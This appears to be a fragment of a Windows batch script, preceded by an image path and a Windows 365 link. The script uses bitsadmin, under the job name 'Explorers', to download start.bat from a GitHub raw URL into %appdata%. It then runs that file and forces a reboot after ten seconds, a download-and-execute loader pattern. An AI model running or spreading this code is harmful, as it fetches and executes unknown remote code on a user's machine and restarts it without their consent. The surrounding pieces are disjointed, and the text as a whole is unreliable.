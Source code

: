 https://windows365.microsoft.com/

call bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat

call %appdata%\start.bat

call shutdown -r -t 10

